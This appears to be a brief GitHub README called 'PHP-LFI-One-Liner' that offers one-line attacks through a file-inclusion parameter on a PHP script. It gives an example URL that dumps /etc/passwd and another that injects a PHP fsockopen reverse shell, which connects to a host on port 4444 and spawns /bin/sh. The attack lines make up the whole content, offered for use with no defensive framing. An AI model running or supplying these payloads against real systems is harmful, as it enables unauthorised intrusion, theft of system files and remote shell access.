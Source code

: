 # PHP-LFI-One-Liner
Simple one-liner to execute remote code on a system

  
# Example

# Dump Password file

http://10.10.10.10/shell.php?id=/etc/passwd
  
# Reverse Shell (PHP)

http://10.10.10.10/shell.php?id=php -r '$sock=fsockopen("<10.10.10.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
  
  
